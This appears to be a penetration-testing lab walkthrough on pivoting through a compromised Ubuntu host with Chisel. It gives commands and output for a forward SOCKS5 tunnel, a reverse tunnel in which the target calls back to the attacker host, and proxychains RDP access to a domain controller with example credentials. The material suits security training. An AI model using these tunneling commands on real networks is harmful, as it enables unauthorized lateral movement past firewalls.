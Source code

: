 # SOCKS5 Tunneling with Chisel

## Setting Up & Using Chisel
#### Cloning Chisel

```bash
git clone https://github.com/jpillora/chisel.git
```
### **Note:** Depending on the version of the `glibc` library installed on both (target and workstation) systems, there might be discrepancies that could result in an error. When this happens, it is important to compare the versions of the library on both systems, or we can use an older prebuilt version of `chisel`, which can be found in the `Releases` section of the GitHub repository.

#### Building the Chisel Binary

```bash
cd chisel
go build
```
#### Transferring Chisel Binary to Pivot Host

```bash
scp chisel ubuntu@10.129.202.64:~/
 
ubuntu@10.129.202.64's password: 
chisel                                        100%   11MB   1.2MB/s   00:09    
```
#### Running the Chisel Server on the Pivot Host

```bash
TARGET
---------------------------------------------------------------------------
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```
#### Connecting to the Chisel Server

```bash
Attacker
-----------------------------------------------------------------------------
./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```
#### Editing & Confirming proxychains.conf

```bash
tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```
#### Pivoting to the DC

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

#### Starting the Chisel Server on our Attack Host

```bash
Attacker
-----------------------------------------------------------------------------
sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```
#### Connecting the Chisel Client to our Attack Host

```bash
TARGET
-----------------------------------------------------------------------------
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```
#### Editing & Confirming proxychains.conf

```bash
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

